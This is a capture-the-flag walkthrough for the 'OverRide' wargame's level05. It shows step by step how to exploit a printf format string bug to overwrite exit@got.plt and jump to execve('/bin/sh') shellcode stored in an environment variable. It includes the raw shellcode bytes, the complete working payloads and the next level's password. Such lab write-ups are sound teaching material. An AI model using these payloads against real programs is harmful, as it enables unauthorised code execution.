



# level05



```sh
level05@OverRide:~$ ./level05
Kuzan
kuzan
level05@OverRide:~$ ./level05
GARPPPPP
garppppp
level05@OverRide:~$ ./level05 RYOKUGYU
KIZARU
kizaru
level05@OverRide:~$
```

Okay it seems that the program is converting the input to lowercase. Let's check the source code.



- A buffer `s` of `100 bytes` is declared.
- `fgets` open the standard input and store the input in `s`.
- A loop is iterating over the string and if the character is between `65` and `90` (uppercase) it is converted to lowercase by xoring it with `0x20` (`32`).
- Finally the string is printed by calling `printf` without any format string (potential format string vulnerability).

- Let's speedrun this level by using the `printf` format string vulnerability. We are going to overwrite the `exit@got.plt` function address with the address of a `shellcode` that will spawn a shell.

# <u>Vulnerabilit**ies**</u> : `GOT overwriting` by `Format String Attack` helped by a `Shellcode`

> It's a mix of the [`Format String Attack` (level3 from _RainFall_)](https://github.com/Nimpoo/rainfall/blob/main/level3/walkthrough.md), the [`GOT OverRide` (level5 from _RainFall_)](https://github.com/Nimpoo/rainfall/blob/5b273638bacb4d48582e8678d3da764df7e804df/level5/walkthrough.md) and using a shellcode.

## 1. Finding the padding

```sh
level05@OverRide:~$ ./level05
AAAA %p %p %p %p %p %p %p %p %p %p %p %p
aaaa 0x64 0xf7fcfac0 (nil) (nil) (nil) (nil) 0xffffffff 0xffffd724 0xf7fdb000 0x61616161 0x20702520 0x25207025
level05@OverRide:~$ 
```

- our buffer `AAAA` is translated to `aaaa` in lowercase : its hexadecimal representation is `0x61616161` instead of `0x41414141`.

### The position of the buffer in the stack is at the **10th position**.

## 2. Finding the address of the `exit@got.plt` function

```sh
(gdb) disass exit
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:	jmp    *0x80497e0
   0x08048376 <+6>:	push   $0x18
   0x0804837b <+11>:	jmp    0x8048330
End of assembler dump.
(gdb) disass 0x80497e0
Dump of assembler code for function exit@got.plt:
   0x080497e0 <+0>:	jbe    0x8049765 <_DYNAMIC+105>
   0x080497e2 <+2>:	add    $0x8,%al
End of assembler dump.
(gdb)
```

The address to override is `0x080497e0` (`\xe0\x97\x04\x08`). We will override this address with the address of a shellcode that will spawn a shell (by executing the function `execve("/bin/sh", 0, 0)`).

## 3. Placing our shellcode in the `environment`

- The `environment variable` store the shellcode, but even a `NOP sled`. It's usefull to have a `NOP sled` to increase the probability of hitting the shellcode.

- The `NOP` instrution (`x\90` in hexadecimal) is used to do nothing. It's a `NOP sled` because it's a succession of `NOP` instructions.

```sh
export SHELLCODE=$(python -c 'print "\x90" * 1000 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"')
```

## 4. Finding the address of our `environment variable`

```sh
(gdb) call (char *)getenv("SHELLCODE")
No symbol table is loaded.  Use the "file" command.
(gdb) 
```

- Oh, interesting. We need to run the program for the `environment` to be loaded in the memory.

```sh
(gdb) b main
Breakpoint 1 at 0x8048449
(gdb) r
Starting program: /home/users/level05/level05

Breakpoint 1, 0x08048449 in main ()
Breakpoint 1, 0x08048449 in main ()
(gdb) call (char *)getenv("SHELLCODE")
$1 = 0xffffd4c8 "\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220"...
(gdb)
```

Perfect, we can verify by another way to be sure :

```sh
(gdb) x/s 0xffffd4c8
0xffffd4c8:	 "\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220"...
(gdb) 
```

It's our variable `SHELLCODE`. AND another thing to check, is the place we have to execute our shellcode, and at which address will overwrite `exit@got.plt` :

```sh
(gdb) x/50x 0xffffd4c8
0xffffd4c8:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd4d0:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd4d8:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd4e0:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd4e8:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd4f0:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd4f8:	0x90	0x90
(gdb)
```

All these `0x90` are our `NOP sled` and our `shellcode` is at the end of the `NOP sled`.

## 5. Overwriting the `exit@got.plt` function address

### Little brief of what we are going to do :

To use the `print` command in `gdb` to display the decimal value of an address, you need to convert the address `0xffffd4c8` to its decimal representation. This decimal value will then be used in the `format string` to print the corresponding number of `spaces`. Finally, you will overwrite the address of the `exit@got.plt` function (which is stored at position 10 in the stack) with this decimal value.

```sh
(gdb) print 0xffffd4c8
$1 = 4294956232
(gdb) 
```

We have the decimal value `4 294 956 232` for the address `0xffffd4c8`. We will use this value to overwrite the `exit@got.plt` function address (by reconvert it in hexadecimal with the format string `%x`).

```sh
(python -c 'print "\xe0\x97\x04\x08" + "%4294956232x%10$n"'; cat) | ./level05
```

### WE HAVE IT, OUR PAYLOAD

## 6. Let's get this awesome flag

```sh
level05@OverRide:~$ (python -c 'print "\xe0\x97\x04\x08" + "%4294956232x%10$n"'; cat) | ./level05
�
```

### _???_

```sh
level05@OverRide:~$ (python -c 'print "\xe0\x97\x04\x08" + "%4294956232x%10$n"'; cat) | ./level05
whoami
level05@OverRide:~$ 
```

### _Hum... why it's not working ?_

It's because the function `printf` cannot take a number as big as `4 294 956 232` as an argument. We need to split this number into two smaller numbers.

And we can add `300` to out number `4 294 956 232` for being sure to spot the NOP sled : `4 294 956 232 + 300` = **`4 294 956 532`**. In hexadecimal it's `0xffffd5f4`.

## 7. Splitting the number

Here's an example of hiw to split a too large number (you have the source in the [`links.txt` file](https://github.com/Nimpoo/override/blob/main/level05/Ressources/links.txt)) :



Let's do theses operations for our address `0xffffd5f4` :

1. `0xffff` : is the **high order bytes** of the address ---> in decimal it's `65535`.

2. `0xd5f4` : is the **low order bytes** of the address ---> in decimal it's `54772`.
3. We want to write it in the address `0x080497e0` :
	- `0xffff` (`65535`) at `0x080497e0` + `2` = `0x080497e2` (high order bytes)
	- `0xd5f4` (`54772`) at `0x080497e0` (low order bytes)
4. **Low order bytes** : `54772 - 8` = **`54764`** (we need to substract `8` because we already wrote `2` bytes).
5. **High order bytes** : `65535 - 54772` = **`10763`** (we need to substract `54772` because we already wrote `54772` bytes).

## 8. The REAL final payload

```sh
(python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%54764x" + "%10$hn" + "%10763x" + "%11$hn"'; cat) | ./level05
```
- `"\xe0\x97\x04\x08"` : the **high order bytes** of the address `0xffffd5f4` (in little endian).

- `"\xe2\x97\x04\x08"` : the **low order bytes** of the address `0xffffd5f4` (in little endian).
- `"%54764x"` : we need to print `54764` spaces to reach the address `0xffffd5f4` (**low order bytes**).
- `"%10$hn"` : we write the **low order bytes** at the address `0x080497e0`.
- `"%10763x"` : we need to print `10763` spaces to reach the address `0xffffd5f4` (**high order bytes**).
- `"%11$hn"` : we write the **high order bytes** at the address `0x080497e2`.

---

### [address of `exit@got.plt`]
### + [address of `exit@got.plt` + 2 bytes]
### + [number of spaces to print to reach the **low order bytes**]
### + [write the **low order bytes**]
### + [number of spaces to print to reach the **high order bytes**]
### + [write the **high order bytes**]
### = **OUR PAYLOAD**

Let's try it :

```sh
level05@OverRide:~$ (python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%54764x" + "%10$hn" + "%10763x" + "%11$hn"'; cat) | ./level05
...
[A LOT OF SPACES]
...
                                   f7fcfac0 # An address just printed, I can't explain why
whoami
level06
```

# YEEEEEAAAAAPAAAAAAAAH

Let's get the flag and go to the next level :

```sh
cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
^C
level05@OverRide:~$ su level06
Password:
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   /home/users/level06/level06
level06@OverRide:~$ 
```

## Epilogue : a little precision about the additionnal `300` to the address of our shellcode present in the `environment`

We added `300` to the address of our shellcode to be sure to hit the `NOP sled`. If we don't do that, we can have a segmentation fault because the address of our shellcode is not in the NOP sled. Let's retry our calculs :
- The address of our shellcode is `0xffffd4c8` in decimal it's `4294956232`.

- `0xffff` (`65535`) at `0x080497e0` + `2` = `0x080497e2` (high order bytes) (it's the same as before).
- `0xd4c8` (`54472`) at `0x080497e0` (low order bytes).
- **Low order bytes** : `54472 - 8` = **`54464`**.
- **High order bytes** : `65535 - 54472` = **`11063`**.

And now, let's try it :

```sh
level05@OverRide:~$ (python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%54464x" + "%10$hn" + "%11063x" + "%11$hn"'; cat) | ./level05
...
[A LOT OF SPACES]
...
                                   f7fcfac0
whoami
Segmentation fault (core dumped)
level05@OverRide:~$
```

## It crashed !

It crashed because the address of our shellcode is not in the `NOP sled` and try to write at an address that is not writable. That's why we need to add `300` or another random number which is enough to hit the `NOP sled`.

# level05 complet !


